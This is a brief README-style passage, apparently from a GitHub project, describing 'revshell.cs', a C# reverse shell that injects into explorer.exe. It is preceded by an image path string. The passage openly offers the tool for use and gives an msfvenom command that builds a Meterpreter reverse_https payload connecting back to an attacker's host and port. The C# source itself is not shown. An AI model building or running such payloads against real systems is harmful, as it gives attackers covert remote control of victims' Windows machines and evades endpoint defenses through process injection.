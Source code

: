# revshell.cs
Here is a simple reverse shell via process injection in explorer.exe written in C#, based on the .NET Framework.

You will need to generate a shellcode based on the target architecture : msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> LPORT=<LP> -f exe -o reverse_shell.exe
